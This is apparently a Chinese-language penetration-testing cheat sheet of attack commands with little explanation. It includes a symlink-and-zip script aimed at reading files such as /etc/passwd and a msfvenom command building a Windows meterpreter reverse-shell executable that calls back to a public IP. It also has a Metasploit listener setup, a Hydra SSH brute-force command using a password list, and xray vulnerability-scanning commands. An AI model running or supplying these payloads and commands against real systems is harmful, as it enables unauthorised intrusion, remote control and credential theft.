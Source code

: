 
## 软链接
在/bin/mklink
使用 mklink /etc/passwd passwd
自动生成passwd.zip
```php
#!/bin/bash
ln -s $1 $2
zip --symlinks $2.zip $2
rm $2         
```

## GIT
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230705202542.png)


## nmap
## msf
msfvenom生成reverse_shell马
```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=115.236.153.174 LPORT=39063 -b "\x00" -i 10 -f exe -o /tmp/window_remote_hsk.exe
```

监听端口
```shell
msfconsole  //启动
​
use exploit/multi/handler  //开启监听 
​
set payload windows/meterpreter/reverse_tcp  //设置payload，选择漏洞利用模块
​
set lhost 192.168.36.134  //本地IP，即攻击IP
​
set lport 4444  //监听端口
​
exploit   //攻击
```

[msf后渗透测试萌新指南](https://www.anquanke.com/post/id/164525#h3-21)
[msf获取到session后的命令集合](https://blog.csdn.net/qq_39101049/article/details/96854716)

## Hydra

```
hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.240.52 ssh
```

## xray
```shell
//基础爬虫爬取并对爬虫爬取的链接进行漏洞扫描
xray webscan --basic-crawler http://example.com --html-output vuln.html
//使用代理
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
//扫描单个url
xray webscan --url http://example.com?a=b --html-output single-url.html

```